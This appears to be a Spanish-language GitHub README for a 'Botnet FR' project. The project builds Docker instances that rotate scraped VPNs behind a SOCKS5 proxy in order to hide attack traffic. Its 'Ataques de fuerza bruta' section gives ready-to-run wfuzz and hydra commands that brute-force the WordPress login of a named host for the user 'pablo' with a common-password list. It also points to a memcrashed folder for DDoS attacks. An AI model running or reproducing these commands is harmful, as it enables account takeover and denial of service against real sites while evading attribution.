 # Botnet FR


## Prerequisitos

#### DOCKER
https://docs.docker.com/install/

#### WFUZZ 
`pip install wfuzz`

#### HYDRA
`apt install hydra`

## Instrucciones
### 1. Scrap VPN
`python scrap_vpns.py`

### 2. Compilar imagen Docker
`./build.sh`

### 3. Iniciar instancias 
`./start.sh num_instancias`

### 4. Parar instancias en ejecución
`./stop.sh`


## Utilidades

### HAPROXY Status
* http://localhost:1936/haproxy?stats

### CURL mediante haproxy
* `curl --socks5 localhost:1337 ipconfig.co`

### Contenedores en ejecución
* `docker ps`

### Check alive SOCKS5 Proxy
* `echo 05010 | xxd -p -r | netcat -o /dev/stdout localhost 5001`

* `echo 050100030a676f6f676c652e636f6d0 | xxd -p -r | netcat -o /dev/stdout localhost 5001`


## Ataques de fuerza bruta

### WFUZZ
wfuzz -Z -p localhost:1337:SOCKS5 -t 10 -c -v -z file,500-worst-passwords.txt --hs "ERROR" -d "log=pablo&pwd=FUZZ" "http://pi.hxx.pw/wp-login.php"
wfuzz --recipe bruteforce/wfuzz-recipe

### HYDRA
export HYDRA_PROXY=socks5://127.0.0.1:1337 ; hydra -I -Vv -l pablo -P bruteforce/500-worst-passwords.txt pi.hxx.pw http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=302"

## Ataques DDOS
ver carpeta memcrashed